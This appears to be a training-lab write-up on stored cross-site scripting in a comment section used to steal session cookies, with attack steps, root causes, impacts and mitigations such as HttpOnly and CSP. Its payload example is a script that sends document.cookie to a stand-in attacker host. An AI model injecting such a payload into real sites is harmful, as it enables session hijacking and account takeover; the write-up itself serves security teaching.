

# Lab 22: Exploiting cross-site scripting to steal cookies

## Category
Cross-Site Scripting (XSS) - Stored (Cookie Stealing)

## Vulnerability Summary
The website contains a stored XSS vulnerability in its comment section. The attacker first discovers the XSS vulnerability, crafts a malicious payload, and injects it into the comment field. The payload is designed to establish a connection to an attacker-controlled server, automatically exfiltrating session cookies from any victim who views the compromised comment.

## Attack Methodology
1. **Vulnerability Discovery:** Attacker identifies stored XSS in the comment function.
2. **Payload Crafting:** Creates a malicious script that steals cookies and sends them to an attacker-controlled server.
3. **Injection:** Posts the payload as a comment on the vulnerable page.
4. **Victim Interaction:** When the victim (or automated bot) visits the page and views the comments, the script executes automatically.
5. **Cookie Exfiltration:** The script captures the victim's session cookie and transmits it to the attacker's server.
6. **Session Hijacking:** Attacker uses the stolen cookie to impersonate the victim and gain unauthorized access.



## Technical Root Cause
The application fails to properly sanitize and encode user input in the comment section:

- **No Output Encoding:** User input is rendered as raw HTML/JavaScript.
- **Stored Nature:** The malicious payload persists on the server, affecting all users.
- **Session Cookie Exposure:** Session cookies are accessible via `document.cookie` JavaScript API.
- **No HttpOnly Flag:** Session cookies lack the HttpOnly flag, making them accessible to JavaScript.

### Payload Example
```html
<script>
  fetch('http://attacker.com/steal?cookie=' + document.cookie);
</script>
```

Or using an image beacon:
```html

```

## Impact
- **Account Compromise:** Attacker gains full access to victim's account without knowing credentials.
- **Session Hijacking:** Stolen session cookies allow impersonation of legitimate users.
- **Privilege Escalation:** If admin cookies are stolen, attacker gains administrative access.
- **Data Breach:** Attacker can access sensitive user data and perform actions on behalf of the victim.
- **Undetectable:** User remains unaware their account has been compromised.

## Mitigation
1. **Use Modern Frameworks:** Frameworks like React, Vue, or Angular automatically escape output and prevent XSS.
2. **Set HttpOnly Flag:** Mark session cookies as HttpOnly to prevent JavaScript access.
3. **Implement Content Security Policy (CSP):** Restrict script execution and external connections.
4. **Enable Two-Factor Authentication (2FA):** Add an extra layer of security even if sessions are compromised.
5. **Input Validation & Output Encoding:** Sanitize all user input and encode output based on context.

---
*Lab completed on: 2026-02-26*
